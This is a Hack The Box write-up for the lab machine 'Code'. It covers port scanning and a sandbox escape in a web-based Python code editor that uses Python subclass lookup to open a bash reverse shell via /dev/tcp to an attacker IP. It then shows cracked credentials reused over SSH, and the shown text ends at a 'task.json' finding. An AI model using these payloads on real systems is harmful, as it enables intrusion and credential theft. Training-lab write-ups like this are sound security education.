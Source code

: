 # 🔓 Hack The Box - Code

> Initial enumeration and setup for the Hack The Box machine named **Code**.

pwned

![pwned](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code20.png?raw=true)

---

## 📅 Start Date

`4/19/2025`

---

## 📡 HTB VPN Connection

Before starting, connect to the HTB VPN:

```bash
sudo openvpn ~/Downloads/HTB.ovpn
```

Verify connectivity to the target machine:

```bash
ping -c 3 <HTB_Code_IP>
```
![VPN Connection](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code1.png?raw=true)

🔍 Nmap Scan

Performed a service and version detection scan with aggressive options:

nmap -sC -sV -A -T4 -Pn -oN code.scan 10.10.11.62

![Nmap Result](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code2.png?raw=true)

🧪 Results Summary

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4

Detailed Notes:

    Port 22 (SSH): OpenSSH 8.2p1 — possibly used for shell access after exploitation.

    Port 5000 (HTTP): Gunicorn Python server hosting a Python Code Editor.

http-title: Python Code Editor
http-server-header: gunicorn/20.0.4

📍 OS Details:

    OS detected: Linux 5.x Kernel

    Network distance: 2 hops

🌐 Web Enumeration on Port 5000

Access the Python Code Editor interface at:

http://code.htb:5000

![WebApp](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code3.png?raw=true)

🛠️ Next Steps:

    Interact with the Python Code Editor. Test for:

        Arbitrary code execution

        Upload/execute payloads

        Sandbox escape (if limited)

## 🏴‍☠️ Initial Foothold - Reverse Shell

### 🎯 Objective:
Gain initial access to the target system by exploiting the Python Code Editor and establishing a reverse shell.

---

### 🧰 Prerequisites:

- ✅ **Python** must be installed on the **target** machine.
- ✅ **Netcat (nc)** must be installed on the **attacker's** machine.
- ✅ Ensure the **target machine can reach the attacker’s IP and port**.

---

### 🪝 Step-by-Step Guide: Gaining a Reverse Shell

#### 📌 Step 1: Set Up a Listener on the Attacker’s Machine

On your Kali/Parrot or attacker machine, open a terminal and start Netcat to listen for the incoming connection:

```bash
nc -lvnp 4444
```

![netcat](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code6.png?raw=true)

Flags explanation:

    -l: Listen for incoming connections

    -v: Verbose output

    -n: Don’t perform DNS resolution

    -p 4444: Use port 4444 for the listener

📌 Step 2: Craft the Reverse Shell Payload

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code5.png?raw=true)
![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code7.png?raw=true)

Use Python’s dynamic class reference to spawn a bash shell back to your machine:

(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])

    🔁 Replace ATTACKER_IP with your actual IP address (e.g., 10.10.14.89 from HTB VPN).

📌 Step 3: Execute the Payload on the Target Machine

Choose any of the following methods based on your access level:
🔹 Method 1: Direct Python Execution

If you already have a shell or console on the target:

python3 -c '(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"])'

🔹 Method 2: Remote Code Execution (RCE) via Python Code Editor

Inject the payload through the web interface:

    Visit: http://code.htb:5000

    Enter the payload in the code execution area.

    Trigger execution.

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code8.png?raw=true)

---
## 🧍‍♂️ User Flag Capture

After gaining a reverse shell and exploring the target machine, 

![user.txt](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code13.png?raw=true)

## 🧪 Post-Exploitation - Credentials Discovery

After gaining a reverse shell as `app-production`, I began local enumeration and discovered a SQL database named `database.db` located in the project directory:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code9.png?raw=true)

## 🔐 Cracking Another MD5 Hash

While exploring `database.db` or files under `instance/`, I found another hashed password:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code10.png?raw=true)

---

## 🧑‍💻 Logging in as Another User (Credential Reuse)

After cracking the MD5 hash found in the `instance/database.db` file, I discovered valid credentials:

- **Username**: `martin`
- **Password**: `nafeelswordsmaster`

### 🔐 Attempting SSH Access:

```bash
ssh martin@10.10.11.62
```
![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code11.png?raw=true)
![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code14.png?raw=true)

🔍 Found task.json



